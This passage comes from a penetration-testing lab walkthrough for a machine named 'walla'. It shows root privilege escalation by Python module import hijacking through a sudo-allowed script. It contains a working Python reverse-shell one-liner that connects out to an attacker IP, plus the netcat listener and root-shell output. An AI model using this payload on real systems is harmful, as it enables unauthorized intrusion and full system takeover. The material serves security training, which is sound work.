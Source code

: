 ### Python Module Import Hijacking

Looking at the contents of the **wifi_reset.py** file, we can see that the script attempts to load a `wificontroller` module. If the module is not found, the script simply exits. After checking home directory permissions on the target, we find that the `www-data` user is able to write to the **/home/walter** directory.

```
www-data@walla:/var/www/html/includes$ ls -l /home
ls -l /home
total 16
drwxr-xr-x 2 janis    janis    4096 Mar  4 11:41 janis
drwxr-xr-x 2 paige    paige    4096 Sep 17 14:31 paige
drwxr-xr-x 2 terry    terry    4096 Sep 17 14:31 terry
drwxr-xr-x 2 www-data www-data 4096 Sep 17 17:16 walter
```

Having some basic knowledge of [python paths and module import order](https://stackoverflow.com/questions/9586630/python-paths-and-import-order), we can use our ability to write to the same directory our python script lives in and place a malicious **wificontroller.py** script there. Our malicious module would be executed (imported) as root since one of the **sudoers** entries allows us to execute the **wifi_reset.py** script with elevated privileges.

We'll use a basic python reverse shell for this purpose and write it to the **/home/walter/wificontroller.py** file.

```
www-data@walla:/var/www/html/includes$ echo 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.118.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' > /home/walter/wificontroller.py
```

Let's restart our Netcat listener on port 4444.

```
kali@kali:~$ nc -nlvp 4444
listening on [any] 4444 ...
```

Lastly, we'll execute the python script on the target to trigger our payload.

```
www-data@walla:/var/www/html/includes$ sudo /usr/bin/python /home/walter/wifi_reset.py
<es$ sudo /usr/bin/python /home/walter/wifi_reset.py
...
```

As our malicious module gets imported and executed, we obtain our root shell.

```
kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.98: inverse host lookup failed: Unknown host
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.98] 49744
root@walla:/var/www/html/includes# id
id
uid=0(root) gid=0(root) groups=0(root)
```